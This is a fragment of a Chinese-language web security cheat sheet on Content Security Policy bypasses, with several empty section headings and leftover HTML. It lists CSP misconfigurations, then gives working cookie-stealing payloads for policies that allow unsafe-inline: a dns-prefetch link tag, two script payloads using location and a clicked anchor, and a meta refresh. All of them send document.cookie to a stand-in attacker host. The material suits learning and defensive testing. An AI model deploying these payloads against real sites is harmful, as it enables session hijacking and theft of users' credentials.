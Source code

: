 


### 18.2、编码解码

---


---


---


### 18.4、绕过-过滤“.”

---


### 18.6、绕过-过滤空格

---


---


## 十九、内容安全策略（CSP）绕过

> 
<h3>19.1、CSP配置错误</h3>
利用其错误配置对CSP进行绕过
eg：当包含unsafe-inline关键词但未使用nonce或hash策略时，可直接使用事件属性或script标签执行代码。
<hr/>
<h4>CSP策略配置错误的场景：</h4>
策略定义不全或未使用default-src来补全
script-src的源列表包含unsafe-inline（并且没有使用nonce或hash策略）或允许data伪协议。
script-src或object-src源列表包含攻击者可控制的部分源地址（文件上传、JSON Hijacking、SOME攻击），或者包含不安全的库。
源地址列表滥用通配符。<br/> …




> 
<h3>19.2、unsafe-inline下的绕过</h3>
CSP策略：
default-src 'self';script-src 'self' 'unsafe-inline'
<hr/>
绕过方法：
前提：script开启unsafe-inline模式，其余资源仅允许加载同域
<hr/>
方法一：DNS Prefetch
由于link标签最新的rel属性dns-prefetch尚未被加入CSP实现中，使用如下Payload即可发出一条DNS解析请求，在DNS服务器下查看解析日志便可得到如下内容：
&lt;link rel="dns-prefetch" href="[cookie].evil.com"&gt;
<hr/>
方法二：location.href
大部分的网站跳转还是要依赖前端来进行，所以在CSP中是无法对location.href做出限制的，因此可以衍生出大量的绕过方式：
// bypass 1<br/> &lt;script&gt;location='http://eval.com/cookie.php?cookie='+escape(document.cookie);&lt;/script&gt;<br/> // bypass 2<br/> &lt;script&gt;<br/> var a=document.createElement("a");<br/> a.href='http://evil.com/cookie.php?cookie='+escape(document.cookie);<br/> document.body.appendChild(a);<br/> a.click();<br/> &lt;/script&gt;<br/> // bypass 3<br/> &lt;meta http-equiv="refresh" content="1;url=http://evil.com/cookie.php?data=[cookie]"&gt;
